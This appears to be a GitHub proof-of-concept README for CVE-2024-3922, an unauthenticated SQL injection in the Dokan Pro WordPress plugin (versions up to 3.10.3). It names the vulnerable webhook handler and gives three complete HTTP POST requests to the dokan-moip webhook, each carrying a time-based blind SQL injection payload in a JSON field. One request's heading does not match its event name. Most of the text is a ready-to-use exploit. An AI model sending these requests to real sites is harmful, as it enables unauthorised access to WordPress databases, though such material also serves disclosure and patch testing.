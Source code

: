 # CVE-2024-3922-Poc
Dokan Pro &lt;= 3.10.3 - Unauthenticated SQL Injection

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/dokan-pro/dokan-pro-3103-unauthenticated-sql-injection

File: https://github.com/truonghuuphuc/CVE-2024-3922-Poc/blob/main/dokanpro3103n.rar

Require install plugin
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/6d16fb7f-69f1-4446-9ded-4f08a477f642)


File: wp-content/plugins/dokan-pro/modules/moip/module.php 
Method: handle_moip_webhook
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/229d231c-c4a0-469c-afb0-7244ed024079)
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/6bc5a880-760e-4b8a-843c-1590021fd0a4)

Poc
Event: invoice.created
```
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: <Host>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.110.184:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US;
Connection: close
Content-Length: 135
Content-Type: application/json;charset=UTF-8

{"env":"1","event":"invoice.created","resource":{"subscription_code":"11111' and (select 1 from (select sleep( if(1=1,5,0) ))x )='"}}
```
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/8756762e-bca6-464c-90ce-e3ba1399bcd6)

Event: subscription.expired
```
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: <Host>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.110.184:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US;
Connection: close
Content-Length: 129
Content-Type: application/json;charset=UTF-8

{"env":"1","event":"subscription.expired","resource":{"code":"11111' and (select 1 from (select sleep( if(1=1,5,0) ))x )='"}}
```
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/4c921168-0399-42c6-b736-d06d57ccceb4)

Event: subscription.expired
```
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: <Host>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.110.184:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US;
Connection: close
Content-Length: 129
Content-Type: application/json;charset=UTF-8

{"env":"1","event":"subscription.updated","resource":{"status":"ACTIVE","code":"11111' and (select 1 from (select sleep( if(1=1,5,0) ))x )='"}}
```
![image](https://github.com/truonghuuphuc/CVE-2024-3922-Poc/assets/20487674/90ddbaa4-16d5-4288-98ad-23dc84a053e9)
